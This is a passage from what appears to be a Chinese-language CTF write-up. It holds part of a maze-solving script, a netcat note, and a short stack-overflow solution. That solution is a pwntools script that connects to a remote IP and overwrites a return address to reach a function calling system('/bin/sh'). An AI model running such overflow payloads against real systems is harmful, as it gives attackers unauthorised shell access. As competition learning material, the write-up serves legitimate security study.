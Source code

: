 ```python
				else:
					opts[tpp] = op[i]
					tpp = tpp + 1
				dfs(dx, dy)
				tpp = tpp - 1
		if flag == 1:
			return
	vis[x][y] = 0

for i in range(0, n):
	a.append([])
	vis.append([])
	st = p.recvline(keepends = True)
	dat = st.decode()
	for j in range(0, m):
		if dat[j] == '#':
			a[i].append(1)
		else:
			a[i].append(0)
		vis[i].append(0)

st = p.recvline(keepends = True)
st = p.recvline(keepends = True)
st = p.recvline(keepends = True)

dfs(0, 0)
```



### 0x01 让我康康你的Nc

​	安装netcat，按题目方式连接之后cat flag即可得到结果。

### 0x02 网安的第一口饭

​	简单栈溢出。反编译看到有一个here(void)调用了system("/bin/sh")，也就是说只要调用该程序便能获得类似shell的东西，可以直接cat flag。

​	

```python
from pwn import *

p = remote('111.200.241.244', 59471)
p.recv()
payload = b'a' * 12 + p64(0x4011F5)
p.send(payload)
p.interactive()
```



## Crypto
